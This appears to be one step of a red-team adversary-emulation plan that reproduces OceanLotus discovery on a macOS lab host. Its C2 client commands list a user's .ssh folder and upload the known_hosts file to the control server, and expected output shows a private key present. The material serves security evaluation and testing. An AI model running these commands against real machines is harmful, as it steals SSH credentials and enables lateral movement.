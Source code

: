 None

## Step 2 - macOS Discovery

### 📖 Overview

**Step 2** emulates OceanLotus conducting discovery on a macOS host. OceanLotus
enumerates the contents of the `.ssh` folder. Seeing there is an SSH key, the
`known_hosts` and `history` files are exfil'ed to the C2 server for analysis. The
history file reveals Hope Potter sends files to the file server using SCP.

> CTI Note: There is no open-source reporting to support using the `known_hosts` file in
> conjunction with local SSH keys 😿. During our research, we did not find reporting
> detailing credential collection on macOS. In order to perform lateral movement for the
> linux portion of our scenario and staying consistent with using native OS utilities
> seen in other reporting, we chose to use `known_hosts` discovery with locally stored
> SSH keys.

---

### 👾 Red Team Procedures

1. View the contents of the /.ssh folder
   ```zsh
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"ls -la /Users/hpotter/.ssh/"}'
   ```

   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:23:52 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [Task] 2023/08/24 19:23:59 total 24
   drwx------   5 hpotter  VISERION\Domain Users   160 Aug  4 19:09 .
   drwxr-xr-x+ 18 hpotter  VISERION\Domain Users   576 Aug  4 18:23 ..
   -rw-------   1 hpotter  VISERION\Domain Users  2635 Aug  3 18:14 id_rsa
   -rw-r--r--   1 hpotter  VISERION\Domain Users   589 Aug  3 18:14 id_rsa.pub
   -rw-r--r--   1 hpotter  VISERION\Domain Users   172 Aug  4 19:09 known_hosts

   [SUCCESS] 2023/08/24 19:23:59 Successfully set task output.
   ```

2. Exfil the Known Host File for review.
   ```zsh
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_upload_file", "arg":"/Users/hpotter/.ssh/known_hosts"}'
    ```
   Expected output:
   ```
   [SUCCESS] 2023/08/24 19:24:54 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [SUCCESS] 2023/08/24 19:24:54 File uploaded: Successfully uploaded file to control server at './files/known_hosts'
   ```

3. Verify the file was uploaded to the control server.
   ```
   cat ./files/known_hosts
   ```

   Expected Output:
   ```
   10.90.30.7 ecdsa...<...ssh key information>
   ```

   ```